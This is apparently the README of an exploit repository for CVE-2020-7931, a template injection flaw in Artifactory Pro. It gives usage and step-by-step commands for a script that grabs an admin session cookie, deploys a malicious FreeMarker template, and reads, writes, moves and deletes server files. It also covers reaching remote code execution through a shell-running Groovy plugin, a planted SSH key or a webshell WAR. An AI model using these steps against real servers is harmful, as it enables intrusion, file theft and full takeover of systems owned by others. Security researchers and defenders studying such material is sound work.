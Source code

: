 CVE-2020-7931: SSTI exploitation in Artifactory Pro
===================================================

CVE-2020-7931 is somewhat of a purposeful misconfiguration vulnerability in Artifactory that lets attackers conduct [server-side template injections](https://portswigger.net/kb/issues/00101080_server-side-template-injection) from a [FreeMarker template](https://freemarker.apache.org/).

The vulnerability was discovered by [Ryan Hanson from Atredis](https://github.com/atredispartners/advisories/blob/master/ATREDIS-2019-0006.md) and was fixed for all affected versions in late 2019. It will only work on the Pro versions of Artifactory, as other versions do not have templating capabilities.

This repository contains a [script](./artifactory_CVE-2020-7931.py) and a [template](./sample.xml).

* The python script is a wrapper to automate the uploading, deployment and execution of template payloads.
* The template implements many primitives (read, list, write...) that interact with the filesystem and lead to Remote Code Execution.


Template contents
-----------------

The template grabs the first GET parameter to determine its desired action. Valid actions are:
```
info                                    Returns info about the current configuration
read <filepath>                         Reads a file, as is
read_bytes <filepath>                   Reads a file binarily as integers
list <dirpath>                          List a directory contents
create_file <filepath>                  Create an empty file
mkdir <dirpath>                         Create a folder
delete <filepath>                       Delete a file or empty folder
move <src> <dst>                        Move a file (*)
copy <scr_path> <src_file> <dst>        Copy a file to the application's web root. Pay attention to the quirky arguments (**)
```

(\*): move uses the Java [renameTo method](https://docs.oracle.com/javase/7/docs/api/java/io/File.html#renameTo(java.io.File)) which does not work accross different filesystems. To perform a move accross filesystems, copy then move have to be used, more info below.

(\*\*): source has to be split between the basepath and the filename; destination is relative to artifactory's web application root path, e.g. ```/opt/jfrog/artifactory/tomcat/webapps/artifactory/```


Script usage
------------
```
usage: artifactory_CVE-2020-7931.py [-h] -H HOST [-u USER] [-p PASSWORD]
                                    [-c COOKIE] [-U UPLOAD] [-g]
                                    [-d DROP_TEMPLATE] [-e EXEC_TEMPLATE] [-r]
                                    [-R REPOSITORY_NAME]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -c COOKIE, --cookie COOKIE
  -U UPLOAD, --upload UPLOAD
  -g, --get_cookie
  -d DROP_TEMPLATE, --drop_template DROP_TEMPLATE
  -e EXEC_TEMPLATE, --exec_template EXEC_TEMPLATE
  -r, --reload_plugins
  -R REPOSITORY_NAME, --repository_name REPOSITORY_NAME
                        Default: example-repo-local
```

### Getting and setting a cookie
```
export cookie=$(./artifactory_CVE-2020-7931.py -H http://localhost:8081 -g -u admin -p password | grep '-') && echo $cookie
```

### Uploading a file
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -U sample.groovy
```

### Deploying the template
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -d sample.xml
```

### Executing the template
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml list /etc/
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml read /etc/password
```

### Copying a file accross mountpoints
As we've seen, renameTo() will not work accross different filesystems. To emulate this, first copy the file then move it (do it immediately, or else artifactory might crash!):
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml copy /var/opt/jfrog/artifactory/data/tmp/artifactory-uploads/ bla /bla (***)
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -e sample.xml move /opt/jfrog/artifactory/tomcat/webapps/artifactory/bla /etc/bla
```

(\*\*\*): As explained previously, here ```/bla``` actually refers to ```/opt/jfrog/artifactory/tomcat/webapps/artifactory/bla``` because ```root.write()``` will necessarily write to the current application's web root.

This lets you exploit configurations that are storing artifacts on a separate filesystem (which is a sound practice!).


Getting Remote Code Execution
-----------------------------
By default with an artifactory install, it's not possible to instantiate classes, thus the [regular freemarker.template.utility.Execute trick](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#code-execution-2) will not work.

There are several other ways to get remote code execution just by manipulating the filesystem:

* adding a public key to the users's authorized_keys file, which might not work for a number of reasons (maybe there's no SSH, maybe it has no PubKey authentication, maybe it's configured to look in /etc/ssh/authorized_keys rather than in user's homes ...)
* executing a groovy plugin
* starting a Tomcat servlet that implements a webshell


### Executing a groovy plugin
Here's an example of a groovy plugin that performs shell execution, [more elaborate examples here](https://github.com/gquere/pwn_jenkins#command-execution-from-groovy):
```
def proc = "ls -la /etc".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Plugins have to be placed in the plugin path ```/var/opt/jfrog/artifactory/etc/plugins/``` and have to be reloaded by using an [API call](https://www.jfrog.com/confluence/display/JFROG/Artifactory+REST+API#ArtifactoryRESTAPI-ReloadPlugins) that requires **Artifactory admin privileges**:
```
./artifactory_CVE-2020-7931.py -H http://localhost:8081/ -c $cookie -r
```


### Starting a Tomcat servlet (deploying a .war file)
Here's a [Tomcat servlet](https://github.com/gquere/javaWebShell) that implements a webshell.

WAR files have to be placed in Tomcat webapps path ```/opt/jfrog/artifactory/tomcat/webapps/```. By default, deployment of WAR files is automatic and will start another web application next to the Artifactory instance, e.g. at ```http://localhost:8081/sample/```.

This is the preferred method as it does not require Artifactory admin privileges and it's just simpler to execute commands on the fly.
